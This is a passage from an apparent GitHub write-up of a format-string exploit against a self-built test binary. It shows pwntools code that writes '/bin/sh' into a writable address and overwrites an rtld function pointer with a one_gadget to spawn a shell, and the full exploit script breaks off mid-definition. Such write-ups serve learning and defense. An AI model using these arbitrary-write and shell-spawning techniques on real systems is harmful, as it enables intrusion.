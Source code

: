 ![register_state](images/register_state.png)

Since the address inside of r14 is a readable and writable part of the binary, we can write /bin/sh into that address, then use that gadget to call a shell.

After testing the first time, it also seems like it subtracts 1 of the first byte if the address is populated. This is not an issue, as we can just specify a `0` instead of a `/`, when writing /bin/sh and it will fix it into the right string:

```python
rtld_funcptr_offset = libcbase + 0x217f68
one_gadget = libcbase + 0x000cb7db

r14ptr = libcbase + 0x1c0ae8

arb_write_64(r14ptr,u64(b'0bin/sh\x00'))

arb_write_64(rtld_funcptr_offset, one_gadget)
```

And this now spawns a shell!


## Full exploit

The full exploit along with the test program, compiled and source code can be found under the resources folder in this repository.

The full exploit can also be seen below:

```python
from pwn import *

gdbscript = '''
b *main+173
b *_dl_fini+105
c
c 9
'''
io = gdb.debug("./format_vuln",gdbscript=gdbscript)
#io = process("./format_vuln")

#Function to get to the printf and send a format string
def send_format_string(fmt_string):
    io.recvuntil(b'2. Exit the loop\n')
    io.sendline(b'1')
    io.recvuntil(b'Please enter your input:\n')
    io.sendline(fmt_string)

def arb_write_8(addr,data):
    payload = b''
```